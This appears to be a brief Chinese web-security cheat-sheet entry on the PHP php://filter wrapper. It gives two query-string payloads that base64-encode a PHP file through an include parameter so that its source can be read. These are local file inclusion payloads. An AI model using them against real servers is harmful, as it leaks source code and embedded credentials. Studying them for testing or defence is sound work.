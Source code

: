 ## php://filter

include的时候可以用来显示原本不能显示的php代码

?filename=php://filter/convert.base64-encode/resource=xxx.php

?filename=php://filter/read=convert.base64-encode/resource=xxx.php



